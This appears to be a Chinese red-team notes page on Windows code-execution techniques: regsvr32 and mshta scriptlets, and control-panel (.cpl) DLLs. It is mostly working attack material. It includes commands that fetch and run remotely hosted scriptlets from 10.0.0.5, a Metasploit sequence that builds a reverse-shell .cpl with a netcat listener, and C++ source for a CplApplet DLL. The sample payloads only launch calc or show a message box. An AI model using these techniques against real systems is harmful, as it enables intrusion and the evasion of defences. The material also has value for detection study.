 ```yaml
---
title: 代码执行
date: 2023-07-17 10:27:01
tags:
categories:
- 红队
---
```






# regsvr32

```
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```

我们需要将 back.sct 托管在 Web 服务器上，以便我们可以像这样调用它：

```
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

请注意 regsvr32 进程几乎立即退出。这意味着仅通过查看受害计算机上的进程列表，邪恶进程可能不会立即显现出来......除非您意识到它是如何被调用的。Sysmon 命令行日志记录可以帮助您检测此活动：

# MSHTA

编写一个 scriptlet 文件，在调用时将启动 calc.exe：

```
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```

调用远程托管的 scriptlet 文件：

```
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```

```
mshta.exe http://10.0.0.5/m.hta
```

# 控制面板项目

```
Generating a simple x64 reverse shell in a .cpl format:
msfconsole
use windows/local/cve_2017_8464_lnk_lpe
set payload windows/x64/shell_reverse_tcp
set lhost 10.0.0.5
exploit

root@~# nc -lvp 4444
listening on [any] 4444 ...
```

我们可以看到.cpl只是一个导出了DllMain函数的DLL：

快速查看 dll 的反汇编表明将生成 rundll32.exe，并以挂起模式创建一个新线程，该线程很可能会注入我们的 shellcode，并最终恢复执行该 shellcode：

# 通过导出的 Cplapplet 函数将代码作为控制面板项执行

这是一个简短的说明，展示了如何执行 .cpl 文件中的代码，该文件是代表控制面板项的常规 DLL 文件。

.cpl 文件需要导出一个函数`CplApplet`才能被 Windows 识别为控制面板项。

一旦 DLL 被编译并重命名为 .CPL，只需双击它即可像常规 Windows .exe 文件一样执行。

```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "stdafx.h"
#include <Windows.h>

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
	HWND hwndCpl,
	UINT msg,
	LPARAM lParam1,
	LPARAM lParam2
)
{
	MessageBoxA(NULL, "Hey there, I am now your control panel item you know.", "Control Panel", 0);
	return 1;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
	{
		Cplapplet(NULL, NULL, NULL, NULL);
	}
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

DLL 编译完成后，我们可以看到导出的函数`Cplapplet`：
